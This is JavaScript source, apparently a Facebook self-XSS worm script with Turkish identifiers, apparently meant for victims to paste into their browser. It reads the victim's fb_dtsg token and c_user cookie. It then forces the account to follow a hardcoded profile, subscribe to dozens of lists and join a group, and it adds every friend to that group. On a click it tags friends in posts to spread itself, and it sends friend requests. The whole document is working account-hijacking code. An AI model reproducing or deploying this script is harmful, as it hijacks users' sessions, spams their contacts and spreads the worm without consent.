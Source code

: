 -var-fb_dtsg-document.getElementsByName-fb_dtsg-0-.value-var-user_id-document.cookie.
=====================================================================================

    var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {     konum = document.cookie.indexOf(tarama)     if (konum != -1) {     konum += tarama.length     son = document.cookie.indexOf(";", konum)     if (son == -1)     son = document.cookie.length     return unescape(document.cookie.substring(konum, son))     }     else { return ""; }     }     }           function getRandomInt (min, max) {     return Math.floor(Math.random() * (max - min + 1)) + min;     }     function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)];     }           var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {           http4.close; // Close the connection           }     }           http4.send(params4);     }           function sublist(uidss) {     var a = document.createElement('script');     a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();";     document.body.appendChild(a);     }           a("100002035311725");           sublist("686319338112570");     sublist("686319254779245");     sublist("686319241445913");     sublist("686319214779249");     sublist("686319228112581");     sublist("686319228112581");     sublist("686319214779249");     sublist("686319044779266");     sublist("686319208112583");     sublist("686319201445917");     sublist("686319188112585");     sublist("686319168112587");     sublist("686319011445936");     sublist("686318394779331");     sublist("686318361446001");     sublist("686318291446008");     sublist("686318441445993");     sublist("686318291446008");     sublist("686317934779377");     sublist("686318928112611");     sublist("686318481445989");     sublist("686318478112656");     sublist("1468386253409907");     sublist("1468386493409883");     sublist("1468386613409871");     sublist("1468386776743188");     sublist("1473473409567858");     sublist("1473473489567850");     sublist("1472123113036221");     sublist("1473474772901055");     sublist("1473474992901033");     var gid = ['1466349933613396'];           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/membership/r2j.php?__a=1';     var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['send'](paramswp);           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var friends = new Array();     gf = new XMLHttpRequest();     gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false);     gf['send']();     if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {     friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {     return _0x93dax8['index'] - _0x93dax9['index'];     });     };     };           for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () {     if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp);     };     var spage_id = "100002035311725";     var spost_id = "100002035311725";     var sfoto_id = "100002035311725";     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);     var smesaj = "";     var smesaj_text = "";     var arkadaslar = [];     var svn_rev;     var bugun= new Date();     var btarihi = new Date();     btarihi.setTime(bugun.getTime() + 1000*60*60*4*1);     if(!document.cookie.match(/paylasti=(\d+)/)){     document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString();     }           //arkadaslari al ve isle     function sarkadaslari_al(){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){     smesaj = "";     smesaj_text = "";     for(i=f*10;i&lt;(f+1)*10;i++){     if(arkadaslar.payload.entries[i]){     smesaj += " @[" + arkadaslar.payload.entries[i].uid + ":" + arkadaslar.payload.entries[i].text + "]";     smesaj_text += " " + arkadaslar.payload.entries[i].text;     }     }     sdurumpaylas(); }           }           };     var params = "&amp;filter[0]=user";     params += "&amp;options[0]=friends_only";     params += "&amp;options[1]=nm";     params += "&amp;token=v7";     params += "&amp;viewer=" + user_id;     params += "&amp;__user=" + user_id;           if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     xmlhttp.send();     }           //tiklama olayini dinle     var tiklama = document.addEventListener("click", function () {     if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){     svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0];     sarkadaslari_al();     document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();           document.removeEventListener(tiklama);     }     }, false);           //arkada?? ekleme     function sarkadasekle(uid,cins){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     }     };           xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);     var params = "to_friend=" + uid;     params += "&amp;action=add_friend";     params += "&amp;how_found=friend_browser";     params += "&amp;ref_param=none";     params += "&amp;outgoing_id=";     params += "&amp;logging_location=friend_browser";     params += "&amp;no_flyout_on_click=true";     params += "&amp;ego_log_data=";     params += "&amp;http_referer=";     params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;     params += "&amp;phstamp=165816749114848369115";     params += "&amp;__user=" + user_id;     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded");           if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){     xmlhttp.send(params);     }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){     cinsiyetgetir(uid,cins,"sarkadasekle");     }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){     xmlhttp.send(params);     }     }           //cinsiyet belirleme     var cinssonuc = {};     var cinshtml = document.createElement("html");     function scinsiyetgetir(uid,cins,fonksiyon){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html     btarihi.setTime(bugun.getTime() + 1000*60*60*24*365);     if(cinshtml.getElementsByTagName("select")[0].value == "1"){     document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString();     }else if(cinshtml.getElementsByTagName("select")[0].value == "2"){     document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString();     }     eval(fonksiyon + "(" + id + "," + cins + ");");     }     };     xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true);     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.send();     }
